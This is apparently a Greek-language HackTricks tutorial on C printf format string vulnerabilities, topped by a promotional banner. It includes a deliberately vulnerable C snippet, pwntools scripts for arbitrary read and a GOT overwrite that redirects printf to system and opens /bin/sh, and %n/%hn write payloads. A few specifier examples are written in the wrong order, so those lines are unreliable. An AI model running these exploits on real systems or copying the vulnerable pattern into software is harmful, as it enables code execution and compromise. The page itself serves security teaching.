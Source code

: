 # Συμβολοσειρές Μορφοποίησης

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; Ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε μορφή PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε στην** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Βασικές Πληροφορίες

Στη γλώσσα C, η **`printf`** είναι μια συνάρτηση που μπορεί να χρησιμοποιηθεί για να **εκτυπώσει** μια συμβολοσειρά. Η **πρώτη παράμετρος** που αναμένει αυτή η συνάρτηση είναι το **ακατέργαστο κείμενο με τους μορφοποιητές**. Οι **επόμενες παράμετροι** που αναμένονται είναι οι **τιμές** που θα **αντικαταστήσουν** τους **μορφοποιητές** από το ακατέργαστο κείμενο.

Η ευπάθεια εμφανίζεται όταν ένα **κείμενο επιτιθέμενου χρησιμοποιείται ως η πρώτη παράμετρος** σε αυτή τη συνάρτηση. Ο επιτιθέμενος θα μπορεί να δημιουργήσει μια **ειδική είσοδο καταχρώμενος** τις δυνατότητες της **μορφοποίησης της συνάρτησης printf** για να διαβάσει και **εγγράψει οποιαδήποτε δεδομένα σε οποιαδήποτε διεύθυνση (αναγνώσιμη/εγγράψιμη)**. Με αυτόν τον τρόπο μπορεί να **εκτελέσει αυθαίρετο κώδικα**. 

#### Μορφοποιητές:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Παραδείγματα:**

* Ευάλωτο παράδειγμα:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Κανονική Χρήση:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Με Λείποντα Ορίσματα:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Πρόσβαση σε Δείκτες**

Η μορφή **`%<n>$x`**, όπου `n` είναι ένας αριθμός, επιτρέπει στο printf να επιλέξει την παράμετρο n (από τη στοίβα). Έτσι, αν θέλετε να διαβάσετε την 4η παράμετρο από τη στοίβα χρησιμοποιώντας το printf, μπορείτε να κάνετε:
```c
printf("%x %x %x %x")
```
και θα διαβάζετε από την πρώτη έως την τέταρτη παράμετρο.

Ή μπορείτε να κάνετε:
```c
printf("$4%x")
```
και διαβάστε απευθείας το τέταρτο.

Σημειώστε ότι ο επιτιθέμενος ελέγχει την παράμετρο `pr`**`intf`, που σημαίνει βασικά ότι** η είσοδός του θα βρίσκεται στη στοίβα όταν καλείται το `printf`, πράγμα που σημαίνει ότι θα μπορούσε να γράψει συγκεκριμένες διευθύνσεις μνήμης στη στοίβα.

{% hint style="danger" %}
Ένας επιτιθέμενος που ελέγχει αυτήν την είσοδο, θα μπορεί να **προσθέσει αυθαίρετη διεύθυνση στη στοίβα και να κάνει το `printf` να τις προσπελάσει**. Στην επόμενη ενότητα θα εξηγηθεί πώς να χρησιμοποιηθεί αυτή η συμπεριφορά.
{% endhint %}

## **Αυθαίρετη Ανάγνωση**

Είναι δυνατό να χρησιμοποιηθεί ο μορφοποιητής **`$n%s`** για να κάνει το **`printf`** να πάρει τη **διεύθυνση** που βρίσκεται στη **θέση n**, ακολουθούμενη από αυτή και **να την εκτυπώσει σαν να ήταν ένα string** (εκτύπωση μέχρι να βρεθεί το 0x00). Έτσι, αν η βασική διεύθυνση του δυαδικού είναι **`0x8048000`**, και γνωρίζουμε ότι η είσοδος του χρήστη ξεκινά στην 4η θέση στη στοίβα, είναι δυνατό να εκτυπώσουμε την αρχή του δυαδικού με:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Σημειώστε ότι δεν μπορείτε να τοποθετήσετε τη διεύθυνση 0x8048000 στην αρχή της εισόδου επειδή η συμβολοσειρά θα καταλήξει στο 0x00 στο τέλος αυτής της διεύθυνσης.
{% endhint %}

## **Αυθαίρετη Εγγραφή**

Ο μορφοποιητής **`$<num>%n`** γράφει τον **αριθμό των γραμμένων bytes** στην **υποδειγμένη διεύθυνση** στην παράμετρο \<num> στο stack. Αν ένας επιτιθέμενος μπορεί να γράψει τόσα χαρακτήρες όσους θέλει με τη χρήση της printf, τότε μπορεί να κάνει το **`$<num>%n`** να γράψει έναν αυθαίρετο αριθμό σε μια αυθαίρετη διεύθυνση.

Ευτυχώς, για να γράψετε τον αριθμό 9999, δεν είναι απαραίτητο να προσθέσετε 9999 "A" στην είσοδο, αντί γι' αυτό μπορείτε να χρησιμοποιήσετε τον μορφοποιητή **`%.<num-write>%<num>$n`** για να γράψετε τον αριθμό **`<num-write>`** στη **διεύθυνση που δείχνει η θέση `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ωστόσο, να σημειωθεί ότι συνήθως για να γράψετε μια διεύθυνση όπως `0x08049724` (που είναι ένα ΤΕΡΑΣΤΙΟ νούμερο για να γραφτεί με μία φορά), **χρησιμοποιείται το `$hn`** αντί του `$n`. Αυτό επιτρέπει να **γραφτούν μόνο 2 Bytes**. Συνεπώς, αυτή η λειτουργία εκτελείται δύο φορές, μία για τα υψηλότερα 2B της διεύθυνσης και μια άλλη φορά για τα χαμηλότερα.

Επομένως, αυτή η ευπάθεια επιτρέπει να **γραφτεί οτιδήποτε σε οποιαδήποτε διεύθυνση (αυθαίρετη εγγραφή).**

Σε αυτό το παράδειγμα, ο στόχος είναι να **αντικατασταθεί** η **διεύθυνση** μιας **συνάρτησης** στον **πίνακα GOT** που θα κληθεί αργότερα. Αν και αυτό θα μπορούσε να εκμεταλλευτεί άλλες τεχνικές αυθαίρετης εγγραφής για εκτέλεση:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Θα **αντικατασταθεί** μια **συνάρτηση** που **λαμβάνει** τα **ορίσματά της** από τον **χρήστη** και θα την **κατευθύνει** προς τη **συνάρτηση `system`**.\
Όπως αναφέρθηκε, για να γράψετε τη διεύθυνση, συνήθως απαιτούνται 2 βήματα: Πρώτα **γράφετε τα 2Bytes** της διεύθυνσης και στη συνέχεια τα άλλα 2. Για να το κάνετε αυτό χρησιμοποιείται το **`$hn`**.

* Το **HOB** αναφέρεται στα 2 υψηλότερα bytes της διεύθυνσης
* Το **LOB** αναφέρεται στα 2 χαμηλότερα bytes της διεύθυνσης

Στη συνέχεια, λόγω του τρόπου λειτουργίας της συμβολοσειράς μορφοποίησης, πρέπει να **γράψετε πρώτα το μικρότερο** από \[HOB, LOB] και στη συνέχεια το άλλο.

Αν το HOB < LOB\
`[διεύθυνση+2][διεύθυνση]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Αν το HOB > LOB\
`[διεύθυνση+2][διεύθυνση]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Πρότυπο Pwntools

Μπορείτε να βρείτε ένα **πρότυπο** για την προετοιμασία ενός εκμεταλλεύσιμου κώδικα για αυτον τον τύπο ευπαθειών στο:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ή αυτό το βασικό παράδειγμα από [**εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings σε BOF

Είναι δυνατόν να καταχραστείτε τις ενέργειες εγγραφής μιας ευπάθειας format string για **εγγραφή σε διευθύνσεις του stack** και εκμεταλλευτείτε μια ευπάθεια τύπου **buffer overflow**.

## Άλλα Παραδείγματα & Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, χωρίς relro, χωρίς canary, nx, χωρίς pie, βασική χρήση format strings για διαρροή της σημαίας από το stack (χωρίς ανάγκη αλλαγής της ροής εκτέλεσης)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, χωρίς canary, nx, χωρίς pie, format string για αντικατάσταση της διεύθυνσης `fflush` με τη λειτουργία win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, χωρίς canary, nx, χωρίς pie, format string για εγγραφή μιας διεύθυνσης μέσα στο main στο `.fini_array` (ώστε η ροή να επαναλαμβάνεται 1 ακόμη φορά) και εγγραφή της διεύθυνσης στο `system` στον πίνακα GOT που δείχνει στο `strlen`. Όταν η ροή επιστρέψει στο main, το `strlen` εκτελείται με είσοδο χρήστη και δείχνοντας στο `system`, θα εκτελέσει τις εισαχθείσες εντολές.
